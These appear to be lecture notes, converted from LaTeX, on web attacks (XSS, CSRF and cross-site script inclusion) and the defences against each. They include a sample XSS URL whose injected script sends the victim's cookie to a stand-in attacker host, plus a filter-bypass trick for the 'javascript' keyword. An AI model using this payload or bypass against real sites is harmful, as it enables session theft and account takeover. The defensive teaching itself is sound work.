  Summarizing:

\begin{tabular}{p{0.15\linewidth}p{0.17\linewidth}p{0.13\linewidth}p{0.4\linewidth}}
Output encoding & Input validation & Security token & Other prevention mechanisms \\
\hline
\hline
\multicolumn{4}{l}{\textbf{Cross-Site Scripting (XSS)}} \\
\hline
Yes & Yes & No & Don't expect user input to be valid \& sanitized \\
\multicolumn{4}{l}{\textbf{Cross-Site Request Forgery (XSRF)}} \\
\hline
No & (Yes) & Yes & Ask for old password/CAPTCHA. Check HTTP REFERER \\
\multicolumn{4}{l}{\textbf{Cross-Site Script Inclusion (XSSI): direct sourcing}} \\
\hline
No & No & No & Don't ever include untrusted code. Serve code from your own website after checking it. \\
\multicolumn{4}{l}{\textbf{Cross-Site Script Inclusion (XSSI): call-back}} \\
\hline
No & No & Yes & Restrict requests to HTTP POST. Check HTTP REFERER \\
\end{tabular}

 {\tt javascript} stripped from any text, but not {\tt java[enter]script}

 {\tt Sillyshop.xyz} has a XSS flaw that embeds URL in {\tt prod\_id}

http://www.sillyshop.xyz/showproduct.asp?prod\_id=7\\
$<$script$>$￼document.write('$<$img\%20src=\\
"http://www.attacker.xyz/capture.php?cookie=',\\
escape(document.cookie),'"$>$')$<$/script$>$

Malicious actions: get victim's cookie and alter orders, purchase with his credit card, reset account pwd, etc.

 HttpOnly cookies, can't be read by client script, not widely supported ￼￼parameter in webpage

 A form from one domain posts a request to a different domain through an authenticated session. Website {\tt attacker.tld} uses a form in a hidden {\tt iframe} to automatically post a new password to a web service, where the victim is currently logged in. \textit{Write-only attack.}\\
\textit{Remedy:} Use a hidden security token, ask for old password, captcha, http referer headers

 Information leakage via callback/dynamic script. Prevent with security token, restriction of requests to HTTP POST, check HTTP REFERER
